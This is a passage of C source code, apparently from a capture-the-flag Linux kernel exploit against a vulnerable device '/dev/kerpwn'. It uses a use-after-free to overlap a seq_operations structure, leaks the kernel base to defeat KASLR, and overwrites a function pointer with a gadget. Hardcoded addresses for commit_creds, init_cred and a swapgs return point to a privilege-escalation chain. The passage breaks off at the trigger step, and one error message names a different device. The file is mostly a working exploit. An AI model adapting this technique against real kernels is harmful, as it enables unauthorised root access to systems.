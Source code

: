 ```c
    };
    ioctl(dev_fd, 0x40, &arg);
}

void write_chunk(long dev_fd, size_t idx, size_t size, void *buf)
{
    struct chal_karg_type1 arg = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };
    ioctl(dev_fd, 0x50, &arg);
}

/**
 * Exploitation
**/

#define COMMIT_CREDS 0xffffffff810c8d40
#define SEQ_OPS_0 0xffffffff81319d30
#define INIT_CRED 0xffffffff82663300
#define POP_RDI_RET 0xffffffff81089250
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81c00f30

size_t buf[0x100];
int seq_fd;

void exploitation(void)
{
    int dev_fd;
    
    dev_fd = open("/dev/kerpwn", O_RDWR);
    if (dev_fd < 0) {
        err_exit("FAILED to open the /dev/rwctf file!");
    }

    puts(INFO_MSG("[*] Allocating object and UAF as seq_operations..."));
    alloc_chunk(dev_fd, 0x20, buf);
    delete_chunk(dev_fd, 0);
    seq_fd = open("/proc/self/stat", O_RDONLY);
    read_chunk(dev_fd, 0, 0x20, buf);

    kernel_offset = buf[0] - SEQ_OPS_0;
    kernel_base += kernel_offset;
    swapgs_restore_regs_and_return_to_usermode = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + kernel_offset;
    init_cred = INIT_CRED + kernel_offset;
    pop_rdi_ret = POP_RDI_RET + kernel_offset;
    commit_creds = COMMIT_CREDS + kernel_offset;
    gadget = 0xffffffff8135b0f6 + kernel_offset;

    printf(
        SUCCESS_MSG("[+] Got kernel base: ") "%lx"
        SUCCESS_MSG(" , kaslr offset: ") "%lx\n",
        kernel_base,
        kernel_offset
    );

    buf[0] = gadget; // seq_operations->stat
    swapgs_restore_regs_and_return_to_usermode += 9;
    write_chunk(dev_fd, 0, 0x20, buf);

    puts(INFO_MSG("[*] Triggering evil seq_operations..."));
```